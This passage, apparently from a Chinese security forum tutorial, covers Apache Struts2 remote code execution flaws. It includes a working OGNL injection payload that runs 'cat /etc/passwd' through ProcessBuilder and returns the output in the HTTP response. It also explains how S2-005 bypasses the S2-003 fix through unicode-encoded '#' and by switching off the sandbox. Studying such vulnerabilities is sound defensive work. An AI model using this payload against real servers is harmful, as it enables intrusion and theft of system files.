 ![image-20210708141252287](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3e9932d8d5ff4964939d37d84314668fe99cce1c.png)

![image-20210708141301722](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5e451e0cc5c05162d3b12f106dfde29e3109a4eb.png)

```php
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{&quot;cat&quot;,&quot;/etc/passwd&quot;})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get(&quot;com.opensymphony.xwork2.dispatcher.HttpServletResponse&quot;),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```

![image-20210708141616746](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-12de2a9f3d53e2777f352891b393790b3d1f5701.png)

![image-20210708141958858](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4a873ccf4f1e95f821d8a01b7f6343533bee3c37.png)

### 4.2 S2-005远程代码执行漏洞

#### 漏洞原理

##### s2-005漏洞的起源源于s2-003（受影响版本：低于Struts2.0.12），struts2会将http的每个参数名解析为ODNL语句执行（可理解为Java代码）。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码（\\u0023)或8进制（\\43）即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置（禁止静态方法调用和类方法执行等）来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这两个选项打开，S2-003的修补方式把自己上了一个锁，但是把钥匙插在了锁头上。

#### 影响版本

```php
Struts 2.0.0-2.1.8.1
```

#### 绕过过程

```php
1. 在S2-003中\u0023用于绕过struts2的过滤器#
2. 在S2-003 struts2添加安全模式（沙盒）之后
3. 在S2-005中，使用OGNL表达式关闭安全模式并再次绕过
```

#### 漏洞启动

![image-20210708144036310](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-283a4271730007831caaa17e1ce95a47f9a26b31.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-28ffd8fe5d5563786edcc99594bb7be8d35383bf.png)
